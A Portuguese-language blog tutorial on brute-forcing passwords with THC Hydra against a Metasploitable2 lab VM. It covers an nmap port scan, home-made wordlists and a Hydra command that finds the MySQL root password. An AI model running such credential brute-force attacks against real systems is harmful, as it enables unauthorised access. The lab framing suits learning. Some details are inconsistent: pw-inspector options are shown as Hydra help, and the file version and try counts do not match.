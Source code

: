 ```yaml
---
title: Quebrando senhas com o THC Hydra
date:   2017-08-15 21:25:41
description: Realizando testes com o THC Hydra, para quebrar senhas usando o método de BruteForce.
categories:
- Security
tags: [Security, Scripts]
image:
   url: img\posts\2017-08-15-quebrando-senhas-com-o-thc-hydra\header.jpg
---
```


## THC Hydra

Vou falar hoje sobre uma ferramenta que também é muito utilizada para realização de auditoriais em pentest que é o `THC – Hydra` que tem como objetivo realizar ataques de `força bruta` ou como muitos falam `brute force`, ou seja, ele faz diversas tentativas de acesso com a utilização de `wordlist`, até conseguir acesso.


![imagem hydra](img/posts/2017-08-15-quebrando-senhas-com-o-thc-hydra/xhydra.png)



## O que o THC Hydra suporta

Atualmente o `THC – Hydra`, suporta os serviços:

AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET,
HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-PROXY, HTTPS-FORM-GET,
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTP-Proxy, ICQ, IMAP, IRC, LDAP,
MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere,
PCNFS, POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, SAP/R3, SIP, SMB, SMTP,
SMTP Enum, SNMP, SOCKS5, SSH (v1 and v2), Subversion, Teamspeak (TS2),
Telnet, VMware-Auth, VNC and XMPP.

## Instalando o Hydra no Linux

Para quem usa Kali Linux, ele ejá vem instalado, mas para quem usar outras distribuições assim como eu, é só seguir os passos abaixo:

Primeiro será necessário baixar os arquivos e descompactá-los.

{% highlight bash %}
wget www.thc.org/releases/hydra-8.1.tar.gz
tar vzxf hydra-7.1-src.tar.gz
cd hydra-8.1
{% endhighlight %}

#### Configurações opcionais

{% highlight bash %}
--disable-xhydra # não compila o xhydra (hydra GUI)
--prefix=/opt/hydra # diz onde vai ser instalado o hydra.
{% endhighlight %}

{% highlight bash %}
./configure --disable-xhydra --prefix=/opt/hydra
{% endhighlight %}

compila, instala e cria link simbólico:

{% highlight bash %}
make && make install && ln -s /opt/hydra/hydra /usr/bin
{% endhighlight %}

Caso queira usar o pw-inspector criar um link simbólico pra ele também:

{% highlight bash %}
ln -s /opt/hydra/pw-inspector /usr/bin
{% endhighlight %}


## Metasploitable2 e reconhecimento

Para que possamos realizar o teste nesse artigo, vou utilizar uma máquina virtual que tem diversas vulnerabilidades justamente para realizar testes de invasão, [Metasploitable2](https://sourceforge.net/projects/metasploitable/files/Metasploitable2/){:class='link-exteno'}, caso queria saber mais sobre essa máquina virtual, é só [acessar o seu WIKI](https://sourceforge.net/p/metasploitable/wiki/Home/){:class='link-exteno'}.

A instalação dessa máquina virtual não é difícil, você só precisa de um software de virtualização, eu uso o `Virtual Box`, que a sua licença é `free`. Existe esse [Tutorial AQUI](http://resources.infosecinstitute.com/running-metasploitable2-on-virtualbox/){:class='link-exteno'}, que explica como usar o `Metasploitable2` no virtual box, se você seguir o tutorial certinho, nada vai dar errado.

### Usando Nmap para reconhecimento

Após a instalação dessa minha máquina virtual, será necessário descobrir quais os serviços que estão abertos nela para que possamos pegar um que esteja com o status de `open`, então para isso vou utilizar o `nmap`, vou filtrar somente algumas portas.

{% highlight bash %}
nmap -sS 192.168.1.40 -p [80,22,3306]
{% endhighlight %}

Lembrando o IP `192.168.1.40` é minha máquina virtual. Resultado:

{% highlight bash %}
Nmap scan report for new-host.home (192.168.1.40)
Host is up (0.00057s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 08:00:27:40:36:A7 (Cadmus Computer Systems)

Nmap done: 1 IP address (1 host up) scanned in 1.58 second
{% endhighlight%}

Perfeito sabemos que os serviços de `SSH, HTTP e MYSQL`, estão com o status de open, vou tentar quebrar a senha do `mysql`.

## Entendendo como o Hydra funciona

Já que descobrimos que o serviço de `mysql` está com o status de open, vamos descobrir qual o usuário e a senha do mysql, para que possamos fazer vamos utilizar o hydra.

Antes de realizarmos qualquer teste, vamos dar uma olhada no help então execute aí `hydra -help`.

{% highlight bash %}
  -i FILE nome da wordlist pra ser tratada (default: stdin).
  -o FILE nome para o arquivo saída com o conteúdo já tratado (default: stdout).
  -m Tamanho minimo da senha.
  -M Tamanho máximo da senha.
  -c MINISETS número minimo de sets necessários.

Sets:
     -l Caracteres minúsculos (a,b,c,d, etc.)
     -u Caracteres maiúsculos (A,B,C,D, etc.)
     -n Números  (1,2,3,4, etc.)
     -p Aqui são os caracteres que não se encaixam -l/-u/-n em são eles $,!,/,(,, etc.)
     -s Caracteres especiais - são todos que não encaixam em nenhum dos sets acima.
     -t Limita o número de conexões paralelas (default: 16).
{% endhighlight %}

Essas são as opções que vamos utilizar aqui, existem outras, caso fique curioso é só ler o restante das opções, o help todo está em inglês essa é uma tradução feila pelo `MDH3LL`.

### Wordlists

Após conhecermos as opções que vamos utilizar então é só partimos para ação. Primeiro precisamos de uma `wordlist`, então vamos fazer uma, não precisa ser algo muito complexo vamos criar uma com poucas informações mesmo, é claro que se você tiver uma com mais opções e maior será bem mais eficiente, mas se não tiver então acesse o seu terminal e digite:

{% highlight bash %}
touch user.list
vim user.list
{% endhighlight %}

Aperte a tecla `i` copie e cole os users abaixo:

{% highlight bash %}
root
teste
admin
user
ROOT
RooT
User
Admin
{% endhighlight%}

Aperte `esc` e digite `:wq`

para fazer a `wordlist` de senhas:

{% highlight bash %}
touch password.list
vim password.list
{% endhighlight %}

Copie e cole as mesmas informações da lista `user`. Com as wordlist prontas agora vamos tentar quebrar a senha do mysql `Lol`. Para isso acesse o seu terminal e digite:

### Quebrando senhas com o THC Hydra.

{% highlight bash %}
hydra -L user.list -P password.list -t 1 192.168.1.40 mysql
{% endhighlight %}

Resultado:
{% highlight bash %}
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-04-21 13:31:16
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 28472 login tries (l:8/p:3559), ~444 tries per task
[DATA] attacking service mysql on port 3306
[3306][mysql] host: 192.168.1.40   login: "root"  - pass "" - 35 of 3559 [child 0]
{% endhighlight %}

Como é possível ver no nosso resultado temos acesso ao `mysql` o usuário `root` e com nenhuma senha. Então vamos alterar a senha do `mysql` para uma palavra que colocamos na nossa wordlist, aqui vou usar a senha `admin`. Para alterar a senha do mysql vá ate a sua máquina virtual e digite:

{% highlight bash %}
mysqladmin -u root password 'admin'
{% endhighlight %}

Se realizarmos o teste novamente

{% highlight bash %}
Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2016-04-21 13:55:27
[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
[DATA] max 1 task per 1 server, overall 64 tasks, 28472 login tries (l:8/p:3559), ~444 tries per task
[DATA] attacking service mysql on port 3306
[3306][mysql] host: 192.168.1.40   login: "root"  - pass "admin" - 35 of 3559 [child 0]
{% endhighlight %}

Bom à principio é apenas isso, você também pode fazer testes como esses em páginas de login, é só uma questão de ler com atenção as opções que exitem no help, com certeza você vai conseguir fazer outros testes bem mais interessantes que esse.

### Referências

[THC-HYDRA [PT-BR] ver 2.1 (Rev)](https://ghostbin.com/paste/y92ha){:class='link-exteno'}

[thc.org](https://www.thc.org/thc-hydra/){:class='link-exteno'}


-----
Viu algum erro ou gostaria de adicionar alguma sugestão a essa matéria? Comente.